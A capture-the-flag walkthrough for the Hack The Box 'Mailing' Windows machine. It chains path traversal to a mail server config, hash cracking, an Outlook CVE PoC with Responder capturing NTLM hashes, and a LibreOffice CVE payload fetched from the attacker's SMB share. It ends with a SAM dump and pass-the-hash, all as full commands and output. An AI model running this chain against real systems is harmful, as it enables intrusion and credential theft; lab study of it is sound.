

| Link: | [https://app.hackthebox.com/machines/Mailing](https://app.hackthebox.com/machines/Mailing) |
| --- | --- |
| Difficulty | Easy |
| Machine | Windows |

---

## Enumeration

**Nmap**

I ran Nmap with the command **`nmap 10.10.11.14 -vv -p- -T4`**. It gave me a lot of information about the open ports on the target machine. However, my focus was primarily on the HTTP port, so I conducted an aggressive scan on all the ports to gather as much detail as possible.

```jsx
PORT      STATE SERVICE      REASON
25/tcp    open  smtp         syn-ack
80/tcp    open  http         syn-ack
110/tcp   open  pop3         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
143/tcp   open  imap         syn-ack
445/tcp   open  microsoft-ds syn-ack
465/tcp   open  smtps        syn-ack
587/tcp   open  submission   syn-ack
993/tcp   open  imaps        syn-ack
5040/tcp  open  unknown      syn-ack
5985/tcp  open  wsman        syn-ack
7680/tcp  open  pando-pub    syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
55959/tcp open  unknown      syn-ack
```

During the aggressive scan, I used the command **`nmap 10.10.11.14 -vv -p25,80,110,135,139,143,445,465,587,993,5040,5985,7680,47001,49664,49665,49666,49667,55959 -T4 -A`**. While Nmap was busy scanning, I focused my attention on examining the HTTP server. The detailed scan provided me with comprehensive information about the target machine's services and configurations.

```
PORT      STATE    SERVICE       REASON      VERSION
25/tcp    open     smtp          syn-ack     hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open     http          syn-ack     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Mailing
110/tcp   open     pop3          syn-ack     hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp   open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack     Microsoft Windows netbios-ssn
143/tcp   open     imap          syn-ack     hMailServer imapd
|_imap-capabilities: IMAP4 NAMESPACE IMAP4rev1 IDLE completed RIGHTS=texkA0001 QUOTA CHILDREN CAPABILITY SORT ACL OK
445/tcp   open     microsoft-ds? syn-ack
465/tcp   open     ssl/smtp      syn-ack     hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp   open     smtp          syn-ack     hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp   open     ssl/imap      syn-ack     hMailServer imapd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
|_imap-capabilities: IMAP4 NAMESPACE IMAP4rev1 IDLE completed RIGHTS=texkA0001 QUOTA CHILDREN CAPABILITY SORT ACL OK
5040/tcp  open     unknown       syn-ack
5985/tcp  open     http          syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open     pando-pub?    syn-ack
47001/tcp open     http          syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack     Microsoft Windows RPC
55959/tcp filtered unknown       no-response
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29452/tcp): CLEAN (Timeout)
|   Check 2 (port 39838/tcp): CLEAN (Timeout)
|   Check 3 (port 37492/udp): CLEAN (Timeout)
|   Check 4 (port 25477/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-05-05T11:59:54
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -4m48s

```

After several attempts of searching for LFI (Local File Inclusion) vulnerabilities, I decided to click on an obvious download button. Surprisingly, this approach actually worked, leading me to further exploit the system.



I stumbled upon an intriguing configuration file path while analyzing the payload: **`..\..\..\..\..\..\..\Program%20Files%20(x86)\hMailServer\Bin\hMailServer.INI`**. This discovery was inspired by an old exploit I found at https://www.exploit-db.com/exploits/7012. Essentially, this exploit provided me with the file structure for locating the hMailServer, specifically the **`hMailServer.INI`** file.

```
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

I attempted to crack the MD5 hashes using hashcat with the command **`hashcat.exe -m0 myhash.txt rockyou.txt`**. Fortunately, I successfully cracked one of the hashes, revealing the Administrator Password as **`homenetworkingadministrator`**.

However, the second hash proved to be resistant to cracking. After some research on Google, I came across a tool called hMailDatabasePasswordDecrypter, available at [https://github.com/GitMirar/hMailDatabasePasswordDecrypter](https://github.com/GitMirar/hMailDatabasePasswordDecrypter). This tool specializes in decrypting blowfish-encrypted hMail database passwords.

```
┌──(root㉿kali)-[/HTB]
└─# git clone https://github.com/GitMirar/hMailDatabasePasswordDecrypter.git
Cloning into 'hMailDatabasePasswordDecrypter'...
remote: Enumerating objects: 8, done.
remote: Total 8 (delta 0), reused 0 (delta 0), pack-reused 8
Receiving objects: 100% (8/8), 9.53 KiB | 1.36 MiB/s, done.
                                                                                                                         
┌──(root㉿kali)-[/HTB]
└─# cd hMailDatabasePasswordDecrypter 
                                                                                                                         
┌──(root㉿kali)-[/HTB/hMailDatabasePasswordDecrypter]
└─# ls
blowfish.cpp  blowfish.h  blowfish.h2  main.cpp  Makefile  README.md
                                                                                                                         
┌──(root㉿kali)-[/HTB/hMailDatabasePasswordDecrypter]
└─# make                             
g++ blowfish.cpp main.cpp -o decrypt
                                                                                                                         
┌──(root㉿kali)-[/HTB/hMailDatabasePasswordDecrypter]
└─# ./decrypt 0a9f8ad8bf896b501dde74f08efd7e4c
6FC6F69152AD
```

Following the steps outlined in the GitHub README page, I attempted to crack the password successfully. However, when I tried to connect to the POP3 server using Telnet, I encountered difficulties as it wasn't functioning as expected.

## User Root

After further enumeration regarding hMailServer, I came across an exploit that could be useful, available at [https://sploitus.com/exploit?id=425B7616-AF36-5AD0-912F-A6B7A45E41E6](https://sploitus.com/exploit?id=425B7616-AF36-5AD0-912F-A6B7A45E41E6). Following the steps outlined in the CVE-2024-21413 Microsoft Outlook Remote Code Execution Vulnerability GitHub repository at [https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability), I proceeded to run Responder on my Kali machine using the command **`sudo responder -I tun0`**.

(Note: If Responder doesn't return the hashes, you can use smbserver as suggested in the proof of concept on the GitHub page. I initially encountered the same issue, but after several attempts, it worked for me.)

After running Responder, I executed the following command:

```
┌──(root㉿kali)-[/HTB/Mailing/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability]
└─# python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient mayay email pls look hi'

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                                                                                                

✅ Email sent successfully.
```

After sending the email, I monitored Responder, and to my satisfaction, I observed that it captured a user hash. 

```
maya::MAILING:dac4fe0aec512cc8:0ABF7016C9D7428230E543395441DBCD:010100000000000000EF6F99469EDA01293B5F358D9EF4DE0000000002000800540058005800340001001E00570049004E002D00380038003200520041004E005000380044004500500004003400570049004E002D00380038003200520041004E00500038004400450050002E0054005800580034002E004C004F00430041004C000300140054005800580034002E004C004F00430041004C000500140054005800580034002E004C004F00430041004C000700080000EF6F99469EDA01060004000200000008003000300000000000000000000000002000009BE5ABAC0CB766267616E7031B83C21B57E7A52A6903503167DE1974F23E1F3B0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0035000000000000000000
```

I cracked the above hash with the following command:

```
hashcat.exe -m 5600 myhash.txt rockyou.txt --self-test-disable
```

Our password is: **`m4y4ngs4ri`**. I used this password with the following command to establish a shell: **`evil-winrm -i 10.10.11.14 -u maya -p m4y4ngs4ri`**. This successfully granted me access to the system, and I was able to retrieve the user flag.

## Root Flag

I came across LibreOffice installed in the Program Files directory, and upon further investigation, I discovered a CVE associated with its version: CVE-2023-2255 ([https://github.com/elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255)).

To exploit this vulnerability, I executed the following Python code:

```arduino
python3 CVE-2023-2255.py --cmd 'net localgroup Administrators maya /add' --output 'exploit.odt'
```

This generated an exploit file named **`exploit.odt`**.

Next, I launched an Impacket SMB server using the command:

```bash
impacket-smbserver mailing `pwd` -smb2support
```

Then, within the Evil-WinRM shell, I executed the following commands:

```go
net use \\10.10.14.98\mailing
copy \\10.10.14.98\mailing\exploit.odt
```

These commands allowed me to access the exploit file from the SMB server.


After copying the **`exploit.odt`** file from the SMB server, I waited for a few moments. Then, to confirm that the user **`maya`** had elevated privileges to administrator, I executed the command **`net user maya`**.

With confirmation of elevated privileges, I proceeded to dump the hashes using the crackmapexec command:

```css
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```

This command allowed me to retrieve the SAM (Security Account Manager) database hashes from the target system.

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing FTP protocol database
[*] Initializing SSH protocol database
[*] Initializing SMB protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing MSSQL protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
SMB         10.10.11.14     445    MAILING          [+] Dumping SAM hashes
SMB         10.10.11.14     445    MAILING          Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.14     445    MAILING          Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.14     445    MAILING          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.14     445    MAILING          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::
SMB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
SMB         10.10.11.14     445    MAILING          maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::
SMB         10.10.11.14     445    MAILING          [+] Added 6 SAM hashes to the database

```

Now, to gain root access to the box without cracking the hash, I can log in using the hash we previously dumped.

I'll use the following command with impacket-wmiexec:

```css
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
```

This command will authenticate me as the local administrator using the hashed credentials we obtained earlier, granting us root access to the box.


There we go! We now have access to the local administrator account. We've successfully rooted this easy Windows box. Great job!

### Conclusion:

Thanks for reading my walkthrough. Hacking through the challenges presented by this box has been an enriching experience. Happy Hacking! 🫡
